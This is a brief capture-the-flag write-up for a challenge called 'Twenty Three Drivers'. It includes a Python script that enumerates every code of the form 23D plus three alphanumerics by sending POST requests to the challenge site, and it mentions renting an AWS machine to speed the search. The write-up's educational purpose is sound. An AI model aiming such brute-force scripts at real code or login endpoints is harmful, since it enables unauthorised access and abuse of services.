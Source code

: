 # Twenty Three Drivers

The secret code is in the format `23D[0-9A-Z]{3}`, enumerate it:

```python
import subprocess
import requests
import sys
alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
for c1 in alphabet:
    for c2 in alphabet:
        sys.stdout.flush()
        for c3 in alphabet:
            code = f"23D{c1}{c2}{c3}"
            print(code)
            r = requests.post('https://23drivers.ctf.zone/', data={'secret_code': code})
            if "Unknown code" not in r.text and "already used" not in r.text:
                print(r.text, c1, c2, c3)
                exit()
```

To accelerate enumeration, create a virtual machine in eu-west-1 region of AWS.

The secret code is found to be `23DF2W`. A png is given when entering the correct secret code. Scanning the QR code will lead to the flag.

Solved!
